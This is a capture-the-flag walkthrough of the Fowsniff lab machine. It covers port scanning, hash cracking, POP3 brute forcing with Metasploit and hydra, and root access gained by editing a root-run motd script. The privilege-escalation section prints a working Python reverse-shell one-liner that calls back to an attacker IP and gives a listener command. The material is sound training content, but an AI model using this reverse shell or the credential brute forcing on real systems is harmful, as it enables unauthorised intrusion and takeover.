# Fowsniff CTF

Difficulty: Easy

# Introduction

This boot2root machine is brilliant for new starters. You will have to enumerate this machine by finding open ports, do some online research (its amazing how much information Google can find for you), decoding hashes, brute forcing a pop3 login and much more!

This will be structured to go through what you need to do, step by step. Make sure you are [connected to our network](http://tryhackme.com/access)

Credit to [berzerk0](https://twitter.com/berzerk0) for creating this machine. This machine is used here with the explicit permission of the creator <3

# Enumeration
First off we kick off our recon with an nmap scan to discover open ports and services running on the target machine.

Nmap scan result:



Here we can see there are a number of ports discovered and we have some open ports. First up let's checkout the website on port 80.



reading through the webpage we can see the company has suffered a data breach and some credentials have been exposed. We also have some vital info on the webpage.

Let's take a look at their twitter/X page:



We have a username and what seems to be a password hash for the sysadmin which can later be cracked. We also have a pastebin link, let's take a look.

We have a backup for password dump. Navigating to the link:

We have the MD5 password hashes and their respective usernames.

Time to crack these hashes with JohntheRipper:

we now have the passwords for the users.

Going back to tryhackme, Question 6 asks:

Using the usernames and passwords you captured, can you use metasploit to brute force the pop3 login?


After setting the appropriate options: 
USER_FILE - create a separate file for the usernames captured and set it using `set USER_FILE usernames.txt`
PASS_FILE - create a separate file for the passwords captured and set it using `set PASS_FILE passwords.txt`
RHOSTS - Target IP address `set RHOST <IP>`
Then run it using `exploit`

We successfully get a hit and can login using the credentials

**Question**: Can you connect to the pop3 service with her credentials? What email information can you gather?

Using netcat:

**Question**: Looking through her emails, what was a temporary password set for her?



**Question**: In the email, who send it? Using the password from the previous question and the senders username, connect to the machine using SSH.

If you're lazy like me LOL you can easily just use hydra to get this if you're stuck.



Using the list of usernames and  the known password we get our answer

# Initial Access

**Question**: Once connected, what groups does this user belong to? Are there any interesting files that can be run by that group?

Using this command `find / -type f -group users -perm /g=x 2>/dev/null` we can find the file:



# Privilege Escalation

**Question**: Now you have found a file that can be edited by the group, can you edit it to include a reverse shell?

Python Reverse Shell:

`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((<IP>,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
`
Other reverse shells: [here](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).



**Instructions**:

If you have not found out already, this file is run as root when a user connects to the machine using SSH. We know this as when we first connect we can see we get given a banner (with fowsniff corp). Look in **/etc/update-motd.d/** file. If (after we have put our reverse shell in the cube file) we then include this file in the motd.d file, it will run as root and we will get a reverse shell as root!

Here's the banner always displayed on every login:



Taking a look at the **/etc/update-motd.d/00-header**



we can see it executes this script so we should expect to catch a shell when we try to re-login. Let's try that, First up setup a netcat listener using `nc -lvnp <PORT>` 



we have root access!



GGs 🤝. Thanks for Reading and Have a nice day!